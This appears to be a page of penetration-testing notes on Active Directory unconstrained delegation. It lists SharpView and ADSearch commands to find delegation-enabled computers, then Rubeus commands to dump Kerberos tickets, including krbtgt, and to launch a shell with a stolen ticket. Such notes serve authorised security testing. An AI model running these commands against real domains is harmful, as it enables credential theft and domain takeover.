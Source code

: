 # Binaries

## 01 - Enumerate

### 1.1 - SharpView

```
C:\> .\SharpView.exe Get-NetComputer -Unconstrained
```

### 1.2 - [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x02 - Privilege Escalation/Windows/Auditing Tools/Domain Privilege Escalation/ADSearch]]

```
C:\> .\ADSearch.exe -s "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem
```

## 02 - Exploit

### 2.1 - Rubeus

```
C:\> .\Rubeus triage

C:\> .\Rubeus dump /luid:<krbtgt_LUID> /nowrap

C:\> .\Rubeus createnetonly /program:C:\Windows\System32\cmd.exe /domain:<DOMAIN> /username:<username> /password:<fake_password> /ticket:<krbtgt_base64_encoded_ticket>
```